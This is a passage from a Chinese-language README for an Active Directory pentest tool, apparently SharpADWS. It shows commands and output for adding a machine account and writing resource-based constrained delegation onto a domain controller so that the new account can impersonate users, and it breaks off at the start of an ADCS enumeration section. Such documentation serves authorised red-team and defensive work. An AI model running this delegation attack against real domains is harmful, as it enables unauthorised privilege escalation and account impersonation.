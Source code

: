 ### AddComputer

AddComputer method 允许您在 ms-DS-MachineAccountQuota 属性值限制的范围内创建一个新的计算机账户，该极其账户可用于后续的 RBCD 攻击中使用。

```powershell
C:\Users\Marcus>SharpADWS.exe AddComputer -computer-name PENTEST$ -computer-pass Passw0rd

[*] Successfully added machine account PENTEST$ with password Passw0rd.

```

### RBCD

RBCD method 的 `read` 能够读取指定账户对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性值，以检查谁有权限对该账户进行资源委派，如下所示：

```powershell
C:\Users\Marcus>SharpADWS.exe RBCD -action read -delegate-to DC01$

[*] Accounts allowed to act on behalf of other identity:
[*]     WIN-IISSERVER$    (S-1-5-21-1315326963-2851134370-1073178800-1106)
[*]     WIN-MSSQL$    (S-1-5-21-1315326963-2851134370-1073178800-1103)
[*]     WIN-PC8087$    (S-1-5-21-1315326963-2851134370-1073178800-1117)

```

RBCD method 的 `write` 能够写入目标账户对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，以进行 Resource-Based Constrained Delegation 攻击。如下所示，我们首先用 AddComputer method 创建了一个新的极其账户 `PENTEST$`，然后我们可以执行以下命令，将 `PENTEST$` 的 SID 写入 `DC01$` 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中：

```powershell
C:\Users\Marcus>SharpADWS.exe RBCD -action write -delegate-to DC01$ -delegate-from PENTEST$

[*] Delegation rights modified successfully!
[*] PENTEST$ can now impersonate users on DC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     PENTEST$    (S-1-5-21-1315326963-2851134370-1073178800-1113)

```

此外，通过 `remove` 可以将 `write` 中添加的 SID 从目标对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中移除：

```powershell
C:\Users\Marcus>SharpADWS.exe RBCD -action remove -delegate-to DC01$ -delegate-from PENTEST$

[*] Delegation rights modified successfully!
[*] Accounts allowed to act on behalf of other identity has been removed:
[*]     PENTEST$    (S-1-5-21-1315326963-2851134370-1073178800-1113)

```

### Certify

Certify method 的 `find` 能够像 [Certify](https://github.com/GhostPack/Certify) 一样枚举 ADCS 中的数据，包括所有的证书颁发机构和证书模版：
